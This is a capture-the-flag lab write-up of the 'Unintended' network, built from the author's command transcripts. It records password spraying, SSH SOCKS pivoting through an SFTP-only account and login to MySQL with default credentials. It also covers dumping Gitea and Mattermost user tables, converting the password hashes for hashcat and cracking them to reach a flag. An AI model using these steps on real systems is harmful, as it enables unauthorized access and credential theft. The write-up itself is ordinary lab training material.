This is most likely the WEBAPP server judging by the response of the port scan:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:dd:96:5e:a9:77:be:ef:7c:54:4f:38:55:bf:69:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN5GJv3agTVOTvBSSviRDpZicfTbt8GBqUD2M5p6CM9OcpG5ieNJLUvSLX9Zt1YYE49eJqIMWlWh5nsHRbR926s=
|   256 f4:c3:6c:24:cf:eb:93:f4:14:3f:98:98:2d:fa:cb:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDwyZJVkoQfGVoBe7SKI1AtQ/ceWCC7jiPzNzoUFZ6j0
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.6 (Python 3.8.20)
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-title: Under Construction
|_http-server-header: Werkzeug/3.0.6 Python/3.8.20
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/19%OT=22%CT=%CU=39002%PV=Y%DS=2%DC=T%G=N%TM=69BBD0EF
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 30.400 days (since Tue Feb 17 01:56:54 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   34.12 ms 10.10.14.1
2   34.15 ms 10.13.38.59

```

# WEB

Now the main site seems hosting a WIP site of some sort which is very static:


Next the chat is pointing to Mattermost and even here I have no credentials so far:  


But there is also a public repository in the gittea page.



now here I can see 2 differen users being part of Ansible administration:  


From the docker I can see the creds for Wordpress?  


And the credentials to the FTP on the backup server?



And doing a quick password spray across all the machines shows that i can ssh?

```bash
─$ netexec ssh web.unintended.vl -u users.txt -p 'Th3_F1P_Account$$'
SSH         10.13.38.59     22     web.unintended.vl [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         10.13.38.59     22     web.unintended.vl [-] Administrator:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] guest:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] juan:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] abbie:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] cartor:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] ratul:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [-] nanee:Th3_F1P_Account$$
SSH         10.13.38.59     22     web.unintended.vl [+] ftp_user:Th3_F1P_Account$$  Linux - Shell access!
                                                                                                                     
```

But I get the message it only allows SFTP connection?

```bash
└─$ ssh ftp_user@web.unintended.vl      
(ftp_user@web.unintended.vl) Password: 
This service allows sftp connections only.
Connection to web.unintended.vl closed.

```

But the FTP is void?

```bash
└─$ sftp ftp_user@web.unintended.vl
(ftp_user@web.unintended.vl) Password: 
Connected to web.unintended.vl.
sftp> ls
ftp_user  
sftp> cd ftp_user/
sftp> ls
sftp> ls -a
.   ..  
sftp> ls
sftp> cd ..
sftp> ls -al
drwxr-xr-x    3 root     root         4096 Feb 24  2024 .
drwxr-xr-x    3 root     root         4096 Feb 24  2024 ..
drwx------    2 1001     1001         4096 Feb 24  2024 ftp_user
sftp> cd ftp_user/
sftp> ls -al
drwx------    2 1001     1001         4096 Feb 24  2024 .
drwxr-xr-x    3 root     root         4096 Feb 24  2024 ..
sftp> 

```

And I have write access!

# Poking the internals

Now here I had to ask for another nudge since I was lost and I got the tips to "SSH -D this machine" and since I want to forward the port 1080/TCP(aka the Proxychains) I can use the following command to do so.

Here I had to ask for a tips and apparenty I was on the right spot to login with the FTP credentials but I had to use the SFTP protocoll instead:

```
┌──(millycash㉿kali-bello)-[~/Downloads/Unintended]
└─$ ssh -D 1080 ftp_user@web.unintended.vl
(ftp_user@web.unintended.vl) Password: 
This service allows sftp connections only.
Connection to web.unintended.vl closed.
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Unintended]
└─$ ssh -D 1080 -N ftp_user@web.unintended.vl
(ftp_user@web.unintended.vl) Password:
```

And now I can see the current services running over the backend machine:

```
└─$ proxychains nmap -p- 127.0.0.1             
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 13:25 +0100
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0000020s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
1080/tcp open  socks
2112/tcp open  kip
5432/tcp open  postgresql
7474/tcp open  neo4j
7687/tcp open  bolt
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds
```

Now here I was checking some help by Gemini and seems like I was able to login to the backend DB?

```bash
└─$ proxychains mysql -h 127.0.0.1 -u root -p'root'      
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:3306  ...  OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 782
Server version: 8.3.0 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0,046 sec)

MySQL [(none)]> 

```

And now I have some creds:

```bash
MySQL [gitea]> select * from user;
+----+---------------+---------------+-----------+-----------------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
| id | lower_name    | name          | full_name | email                       | keep_email_private | email_notifications_preference | passwd                                                                                               | passwd_hash_algo | must_change_password | login_type | login_source | login_name | type | location | website | rands                            | salt                             | language | description | created_unix | updated_unix | last_login_unix | last_repo_visibility | max_repo_creation | is_active | is_admin | is_restricted | allow_git_hook | allow_import_local | allow_create_organization | prohibit_login | avatar | avatar_email        | use_custom_avatar | num_followers | num_following | num_stars | num_repos | num_teams | num_members | visibility | repo_admin_change_team_access | diff_view_style | theme | keep_activity_private |
+----+---------------+---------------+-----------+-----------------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
|  1 | administrator | administrator |           | administrator@unintended.vl |                  1 | enabled                        | f57a3d5d199ac8054c709e665b4eb4842f0e172a253a96038be5ef9e6fe7b0290f2d715524883dd117ac309e878c1dbbe902 | pbkdf2$50000$50  |                    0 |          0 |            0 |            |    0 |          |         | 978d50f37af62dd06b3488f31c2e86d9 | 6f7cf4aa34feb922092ef9f7ca342fa5 | en-US    |             |   1704818537 |   1708806311 |      1708806253 |                    0 |                -1 |         1 |        1 |             0 |              0 |                  0 |                         1 |              0 |        | admin@unintended.vl |                 0 |             0 |             0 |         0 |         0 |         0 |           0 |          0 |                             0 | unified         | auto  |                     0 |
|  2 | juan          | juan          |           | juan@unintended.vl          |                  1 | enabled                        | d8bf3dff89969075cd73cc1496942901ea132619454318cb37e4bec821d6867045bcbc0ac2905c2531ee5d6e6c5a475c9b51 | pbkdf2$50000$50  |                    0 |          0 |            0 |            |    0 |          |         | b9cecf83c8b7fa3966fdd1fd41c96f42 | a3914c8815b674a9f680eaf8eb799e19 | en-US    |             |   1704818644 |   1708806354 |      1708806339 |                    1 |                -1 |         1 |        0 |             0 |              0 |                  0 |                         1 |              0 |        | juan@unintended.vl  |                 0 |             0 |             0 |         0 |         2 |         0 |           0 |          0 |                             0 | unified         | auto  |                     0 |
+----+---------------+---------------+-----------+-----------------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
2 rows in set (0,040 sec)

MySQL [gitea]> 
```

But fucking gemini sucks at generating those hashes so I dumped the whole GITTEA DB:



I will use this [tool](https://github.com/BhattJayD/giteatohashcat.git) to generate the exact hashes:

```python
//Code
import base64

# --- PASTE YOUR DATA HERE ---
user_name = "administrator"
algo_info = "pbkdf2$50000$50"
salt_hex  = "6f7cf4aa34feb922092ef9f7ca342fa5"
passwd_hex = "f57a3d5d199ac8054c709e665b4eb4842f0e172a253a96038be5ef9e6fe7b0290f2d715524883dd117ac309e878c1dbbe902"

# --- THE REPLICATION LOGIC ---
_, iterations, _ = algo_info.split("$")
algo = "sha256"

# Replicating: bytes.fromhex() -> base64.b64encode()
salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode("utf-8")
passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode("utf-8")

# Output matches your target format
print(f"{user_name}:{algo}:{iterations}:{salt_b64}:{passwd_b64}")


//Result
administrator:sha256:50000:b3z0qjT+uSIJLvn3yjQvpQ==:9Xo9XRmayAVMcJ5mW060hC8OFyolOpYDi+Xvnm/nsCkPLXFVJIg90ResMJ6HjB276QI=

```

or for Juan:

```python
//Code
import base64

# --- PASTE YOUR DATA HERE ---
user_name = "juan"
algo_info = "pbkdf2$50000$50"
salt_hex  = "a3914c8815b674a9f680eaf8eb799e19"
passwd_hex = "d8bf3dff89969075cd73cc1496942901ea132619454318cb37e4bec821d6867045bcbc0ac2905c2531ee5d6e6c5a475c9b51"

# --- THE REPLICATION LOGIC ---
_, iterations, _ = algo_info.split("$")
algo = "sha256"

# Replicating: bytes.fromhex() -> base64.b64encode()
salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode("utf-8")
passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode("utf-8")

# Output matches your target format
print(f"{user_name}:{algo}:{iterations}:{salt_b64}:{passwd_b64}")


//Response
juan:sha256:50000:o5FMiBW2dKn2gOr463meGQ==:2L89/4mWkHXNc8wUlpQpAeoTJhlFQxjLN+S+yCHWhnBFvLwKwpBcJTHuXW5sWkdcm1E=

```

And I was able to get Administrator's account on gitea easily!

```bash
sha256:50000:b3z0qjT+uSIJLvn3yjQvpQ==:9Xo9XRmayAVMcJ5mW060hC8OFyolOpYDi+Xvnm/nsCkPLXFVJIg90ResMJ6HjB276QI=:loveandhate
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:50000:b3z0qjT+uSIJLvn3yjQvpQ==:9Xo9XRmayAVMc...276QI=
Time.Started.....: Thu Mar 19 14:00:11 2026 (1 sec)
Time.Estimated...: Thu Mar 19 14:00:12 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    27860 H/s (8.61ms) @ Accel:2 Loops:500 Thr:512 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:49500-49999
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> 280789
Hardware.Mon.#01.: Temp: 55c Util: 97% Core:2325MHz Mem:8000MHz Bus:8

Started: Thu Mar 19 14:00:11 2026
Stopped: Thu Mar 19 14:00:13 2026

```

Now I can see a hidden reposotory with what looks like a backup of a SSH?  


But seems like there is another domain?  


&nbsp;

And some creds baby!



But I have the first flag now:

```bash
└─$ ssh juan@unintended.vl@web.unintended.vl
(juan@unintended.vl@web.unintended.vl) Password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Mar 19 01:20:32 PM UTC 2026

  System load:  0.01               Processes:             280
  Usage of /:   70.2% of 10.72GB   Users logged in:       0
  Memory usage: 57%                IPv4 address for eth0: 10.13.38.59
  Swap usage:   1%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


juan@unintended.vl@web:~$ sudo -l
[sudo] password for juan@unintended.vl: 
Sorry, user juan@unintended.vl may not run sudo on unintended.
juan@unintended.vl@web:~$ hostname
web.unintended.vl
juan@unintended.vl@web:~$ ls -al
total 32
drwxr-xr-x 3 juan@unintended.vl domain users@unintended.vl 4096 Jul 21  2025 .
drwxr-xr-x 6 root               root                       4096 Mar 30  2024 ..
lrwxrwxrwx 1 root               root                          9 Jul 21  2025 .bash_history -> /dev/null
-rw-r--r-- 1 juan@unintended.vl domain users@unintended.vl  220 Feb 24  2024 .bash_logout
-rw-r--r-- 1 juan@unintended.vl domain users@unintended.vl 3771 Feb 24  2024 .bashrc
drwx------ 2 juan@unintended.vl domain users@unintended.vl 4096 Feb 24  2024 .cache
-rw-r--r-- 1 juan@unintended.vl root                         47 Feb 24  2024 .k5login
-rw-r--r-- 1 juan@unintended.vl domain users@unintended.vl  807 Feb 24  2024 .profile
-rw-r----- 1 juan@unintended.vl root                         45 May 20  2025 flag.txt
juan@unintended.vl@web:~$ cat flag.txt 
UNINTENDED{3ddc6a1f44659b219e7446ddbd2878ae}
juan@unintended.vl@web:~$ 

```

# Road to Root

Now here I see some more users that have been logged in so far:

```bash
juan@unintended.vl@web:/home$ ll
total 24
drwxr-xr-x  6 root                        root                       4096 Mar 30  2024  ./
drwxr-xr-x 20 root                        root                       4096 Jul 21  2025  ../
drwxr-xr-x  3 abbie@unintended.vl         domain users@unintended.vl 4096 Jul 21  2025 'abbie@unintended.vl'/
drwxr-xr-x  3 administrator@unintended.vl domain users@unintended.vl 4096 Jul 21  2025 'administrator@unintended.vl'/
drwxr-xr-x  3 juan@unintended.vl          domain users@unintended.vl 4096 Jul 21  2025 'juan@unintended.vl'/
drwxr-x---  4 svc                         svc                        4096 Jul 21  2025  svc/
juan@unintended.vl@web:/home$ 

```

For the sake of this exercise I will upload PSPY and check for juicy stuff here



Basically all of those custom services are exposed via Docker, and also there is Duplicati (the backup site):

```bash
juan@unintended.vl@web:/tmp$ ss -tulpn
Netid                            State                             Recv-Q                            Send-Q                                                        Local Address:Port                                                          Peer Address:Port                            Process                            
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:3306                                                               0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:222                                                                0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:8200                                                               0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 128                                                                 0.0.0.0:22                                                                 0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 511                                                                 0.0.0.0:80                                                                 0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:38491                                                              0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:3000                                                               0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:8065                                                               0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 4096                                                              127.0.0.1:8000                                                               0.0.0.0:*                                                                  
tcp                              LISTEN                            0                                 128                                                                    [::]:22                                                                    [::]:*                            
```

This is the duplicati page:  


Now the sudo is this user:

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Sudoers file: /etc/sudoers.d/WEB-admins is readable
administrator@unintended.vl  ALL=(ALL)       ALL

```

Except this nothing more came out,now a quick chat with Gemini tells me I need to get the private IP of the dockers and identify which one is running Postgres.

```bash
└─# nmap -Pn -n -p 5432 --open 172.17.0.1-30 172.18.0.1-30 172.21.0.1-30 172.22.0.1-30
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 15:31 +0100
Nmap scan report for 172.18.0.3
Host is up (0.10s latency).

PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap done: 120 IP addresses (120 hosts up) scanned in 1.95 seconds

```

Now here again I asked for another nudge since none of the password I currently had actually worked and I got tipsed of using [this](https://github.com/mattermost/docker/blob/main/env.example) one.


And in a second I am in and have some hashes:

```sql
             id             |   createat    |   updateat    | deleteat |   username    |                           password                           | authdata | authservice |          email          | emailverified | nickname |     firstname      | lastname |          roles           | allowmarketing | props |                                                                                                                              notifyprops                                                                                                                               | lastpasswordupdate | lastpictureupdate | failedattempts | locale | mfaactive | mfasecret |   position    |                                            timezone                                             | remoteid 
----------------------------+---------------+---------------+----------+---------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+-----------+-----------+---------------+-------------------------------------------------------------------------------------------------+----------
 bpmhnbnsxf8oppkrdmqjh6x6yw | 1705865690715 | 1705865690715 |        0 | channelexport |                                                              |          |             | channelexport@localhost | f             |          | Channel Export Bot |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865690715 |                 0 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 i7375i3wsp8ntnk3knqdwsgihe | 1705865690721 | 1705865690812 |        0 | feedbackbot   |                                                              |          |             | feedbackbot@localhost   | f             |          | Feedbackbot        |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865690721 |     1705865690812 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 j7cabn811pff5gqpkg8p1ymf5a | 1705865690829 | 1705865690976 |        0 | appsbot       |                                                              |          |             | appsbot@localhost       | f             |          | Mattermost Apps    |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865690829 |     1705865690976 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 crsd6hmhh3yajjmcwdmesmh3gc | 1705865691063 | 1705865691063 |        0 | calls         |                                                              |          |             | calls@localhost         | f             |          | Calls              |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865691063 |                 0 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 8ngchib3tfn6uc4zq91okxorgw | 1705865691574 | 1705865691598 |        0 | playbooks     |                                                              |          |             | playbooks@localhost     | f             |          | Playbooks          |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865691574 |     1705865691598 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 hby6tt5tn3bwiebhopkw9dhthc | 1705865692125 | 1705865692125 |        0 | boards        |                                                              |          |             | boards@localhost        | f             |          | Boards             |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705865692125 |                 0 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
